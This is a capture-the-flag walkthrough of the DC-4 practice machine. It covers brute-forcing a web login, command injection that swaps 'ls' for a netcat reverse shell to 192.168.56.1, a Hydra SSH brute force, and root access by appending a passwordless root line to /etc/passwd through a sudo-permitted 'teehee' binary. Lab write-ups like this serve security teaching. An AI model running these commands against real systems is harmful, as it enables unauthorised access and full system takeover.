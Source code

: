 # DC - 4

nmap enumeration

![](../.gitbook/assets/aaaaaaaaaaaaa%20%281%29.png)

directory discovery

![](../.gitbook/assets/image%20%2811%29.png)

we have a login page in /login.php

![](../.gitbook/assets/image%20%282%29.png)

after a bruteforce with burp and rockyou:

username: Admin

 password: happy

![](../.gitbook/assets/image%20%285%29.png)

click on command

![](../.gitbook/assets/image%20%284%29.png)

click run and intercept the request with burp

we can see the command sending to the server:

![](../.gitbook/assets/image%20%281%29.png)

in this case its ls -l the additional + is for encoding.

we can use this to get a shell

change the ls command to this:

```text
nc+192.168.56.1+6666+-e+/bin/bash
```

![](../.gitbook/assets/image%20%288%29.png)

run a listener and get a shell:

![](../.gitbook/assets/image%20%283%29.png)

![](../.gitbook/assets/image%20%2819%29.png)

![](../.gitbook/assets/image%20%2812%29.png)

we have a wordlist of old passwords, try it with hydra for usernames jim, sam and charles

```text
 hydra -L users -P wordlist 192.168.56.165 ssh -vvv -t 4
```

![](../.gitbook/assets/image%20%2815%29.png)

username: jim

 passsword: jibril04

![](../.gitbook/assets/image%20%2820%29.png)

![](../.gitbook/assets/image%20%2817%29.png)

nothing comes out of these files

lets look for other vectors:

![](../.gitbook/assets/image%20%2810%29.png)

no useful suid/sgid files



![](../.gitbook/assets/image%20%2814%29.png)

no cron jobs

![](../.gitbook/assets/image%20%2818%29.png)

lets check the mails:

cat /var/mail/jim

![](../.gitbook/assets/image%20%287%29.png)

login to charles:

![](../.gitbook/assets/image%20%2821%29.png)

here we have sudo access:



![](../.gitbook/assets/image%20%286%29.png)

we can run a binary named teehee without password

![](../.gitbook/assets/image%20%2816%29.png)

it says that it can:

Copy standard input to each FILE, and also to standard output

#### this means whatever we give \(pipe\) to the binary executable it will append to the specified file as an argument and it is executed with sudo and without password so it can access any file on the system including /etc/shadow and /etc/passwd

so we can add a new entry to /etc/passwd \( a new root user\)

```text
echo "root2::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
```

su root2

![](../.gitbook/assets/image%20%2813%29.png)

done !



